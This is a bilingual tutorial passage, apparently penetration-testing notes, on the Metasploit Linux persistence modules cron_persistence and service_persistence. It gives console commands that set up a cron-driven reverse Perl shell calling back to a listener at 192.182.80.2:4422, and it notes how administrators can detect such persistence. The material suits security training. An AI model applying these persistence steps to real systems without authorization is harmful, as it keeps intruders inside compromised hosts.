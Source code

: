 Cron 持久化

该模块将创建一个 cron 或 crontab 条目来执行有效负载。该模块包括自动清理这些条目以防止多次执行的能力。syslog 将获得 cron 条目的副本。

It allows you to set up a cron job that will continuously connect to your handler.

This is my second recommended module, primarily because cron jobs can easily be detected by administrators on the system. And if it looks suspicious, then they can get rid of that cron job. And it may indicate compromise. Or it may be an indicator of compromise. So you want to be very assured of what module you're using and the effects and artifacts that it'll leave on the target system.

```
use exploit/linux/local/cron_persistence
show options
```

And the default timing option is set to be executed every 60 seconds, or every one minute.

```
set SESSION 4
exploit
show options
```

The payload being used in this case is `cmd/unix/reverse_perl`.

List out our sessions. Make sure that there isn't a conflicting LPORT here.

```
set LPORT 4422
set LHOST 192.182.80.2
exploit
```

This is not a guaranteed in terms of Linux. On Windows, you have a better chance, or you have a greater chance of success. Because, Windows systems are fairly similar in regards to the persistence techniques that you can utilize. However, with Linux, you may not have access to the crontab file. You also want to be wary of the fact that this could be detected quite easily.

[Service Persistence](https://www.rapid7.com/db/modules/exploit/linux/local/service_persistence/)

Service Persistence

This module will create a service on the box, and mark it for auto-restart. We need enough access to write service files and potentially restart services Targets: System V: CentOS <= 5 Debian <= 6 Kali 2.0 Ubuntu <= 9.04 Upstart: CentOS 6 Fedora >= 9, < 15 Ubuntu >= 9.10, <= 14.10 systemd: CentOS 7 Debian >= 7, <=8 Fedora >= 15 Ubuntu >= 15.04 Note: System V won't restart the service if it dies, only an init change (reboot etc) will restart it.

服务持久化

该模块将在盒子上创建一个服务，并将其标记为自动重启。我们需要足够的访问权限来写入服务文件并可能重启服务目标：System V：CentOS <= 5 Debian <= 6 Kali 2.0 Ubuntu <= 9.04 Upstart：CentOS 6 Fedora >= 9，< 15 Ubuntu >= 9.10，<= 14.10 systemd: CentOS 7 Debian >= 7, <=8 Fedora >= 15 Ubuntu >= 15.04 注意：如果 System V 死机，它不会重启服务，只有 init 更改（重启等）才会重启它。

```
use exploit/linux/local/service_persistence
```

We can specify the SHELLPATH, which in this case, the SHELLPATH is probably under `/usr/local/bin`, or `/usr/bin`.
